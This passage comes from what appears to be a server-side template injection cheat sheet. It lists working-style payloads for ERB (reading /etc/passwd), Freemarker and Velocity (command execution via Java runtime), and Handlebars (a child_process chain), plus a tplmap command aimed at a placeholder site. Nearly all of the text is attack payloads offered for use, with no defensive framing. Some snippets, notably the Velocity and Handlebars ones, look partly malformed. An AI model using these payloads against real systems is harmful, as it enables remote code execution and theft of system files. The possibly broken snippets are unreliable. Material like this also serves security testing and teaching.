 #### **Read Files**

```erb
<%= File.read('/etc/passwd') %>
```

---

### **D. Freemarker (Java)**

#### **RCE (Java Runtime)**

```freemarker
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami") }
```

---

### **E. Velocity (Java)**

#### **RCE (Limited by Sandbox)**

```velocity
#set($exec = "Runtime.getRuntime().exec('id')")
$exec.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami')
```

---

### **F. Handlebars (JavaScript – NodeJS)**

#### **Limited Exploitation (No Direct RCE)**

```handlebars
{{#with "e"}}
  {{#with split as |code|}}
    {{#each (lookup (lookup this "_dynamicroot_0") "constructor")}}
      {{#if (eq code "return require('child_process').execSync('id');")}}
        {{this}}
      {{/if}}
    {{/each}}
  {{/with}}
{{/with}}
```

- NodeJS requires prototype pollution for RCE.

---

## **3. Tools for SSTI Exploitation**

1. **`tplmap`** (Auto-detects & exploits SSTI)
   ```bash
   python tplmap.py -u "http://vuln-site.com/?name=test"
   ```
2. **Burp Suite** (Manual testing with payloads).

---